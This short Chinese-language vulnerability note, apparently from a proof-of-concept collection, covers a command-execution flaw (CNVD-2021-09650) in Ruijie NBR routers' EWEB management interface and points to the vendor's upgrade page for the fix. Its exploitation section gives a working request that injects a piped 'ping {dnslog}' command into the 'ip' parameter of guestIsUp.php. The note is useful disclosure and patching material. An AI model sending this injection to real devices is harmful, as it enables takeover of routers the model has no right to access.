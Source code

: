 ### 一 漏洞描述
锐捷网络是一家拥有包括交换机、路由器、软件、安全防火墙、无线产品、存储等全系列的网络设备产品线及解决方案的专业化网络厂商。

锐捷网络股份有限公司NBR路由器EWEB网管系统存在命令执行漏洞，攻击者可利用该漏洞获取服务器控制权限。

### 二 漏洞利用
guest_auth/guestIsUp.php？ip=127.0.0.1|ping {dnslog}&mac=00-00

### 三 漏洞修复
升级  
https://www.ruijie.com.cn/gy/xw-aqtg-gw/86747/

> 参考链接  
> https://www.cnvd.org.cn/flaw/show/CNVD-2021-09650  
> https://blog.csdn.net/CCPxxxXxxx/article/details/119363934
